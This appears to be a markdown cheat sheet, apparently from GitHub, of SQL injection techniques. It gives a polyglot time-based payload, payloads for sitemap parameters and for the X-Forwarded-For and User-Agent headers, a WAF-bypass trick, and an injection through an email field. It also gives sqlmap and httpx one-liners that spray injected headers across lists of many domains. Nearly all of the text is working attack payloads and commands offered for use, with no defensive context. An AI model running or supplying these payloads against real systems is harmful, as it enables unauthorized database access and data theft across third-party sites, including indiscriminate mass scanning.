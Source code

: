 ##### TOOLS
- sqlmap
- ghauri ==> this is best


### Ultiamte sql injection payload to test 
`IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/
`
##### SITEMAP
- sitemap.xml is present? . Try setting ?offset=1 parameter and if content changes, run sqlmap or ghauri   
- payload for sitemap.xml ==>             target[.]com/sitemap.xml?offset=1;SELECT IF((8303>8302),SLEEP(9),2356)#   ==> output time should be 9
- ```` sqlmap -u "target/sitemap.xml?offset=1" -p offset --level 5 --risk 3 --dbms=MySQL --hostname --test-filter="MySQL >= 5.0.12 stacked queries"````

##### X-FORWARDED-FOR AND USER-AGENT
- X-Forwarded-For: ```` 0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z````
- User-Agent: ````"XOR(if(now()=sysdate(),sleep(6),0))XOR"````

###### TIP: if login page is built with php , use user-agent payload
##### Also check injection in cookie 
---
#### Insert backslash in username and password parameter while creating account
`username=admin\&password=admin\` It may bypass some waf and also trigger error in sql syntax

##### IN PARAMETER
- testing in ?parameter=test by replacing below payload 
  ````?parameter[id) VALUES (NULL); WAITFOR DELAY '0:0:5';--]=test````
- sql injection in email parameter when email is send to check if it exists or not
   ```` 
   {“email”:”asd@a.com”}   response: {“code”:2002,”status”:200,”message”:”Email not found.”}
   {“email”:”\”a’-IF(LENGTH(database())=10,SLEEP(7),0)or’1’=’1\”@a.com”}   response:{“code”:0,”status”:200,”message”:”Successful”}	        Valid Delay: 8,696 milis

   `````



##### SQL IN MASS DOMAINS
````
cat domains.txt | httpx -silent -H "X-Forwarded-For: 'XOR(if(now()=sysdate(),sleep(20),0))OR" -rt -timeout 20 -mrt '>20'
cat waybackurls.txt| grep "\?" | head -20 | httpx -silent > urls;sqlmap -m urls --batch --random-agent --level 1 | tee sqlmap.txt

````



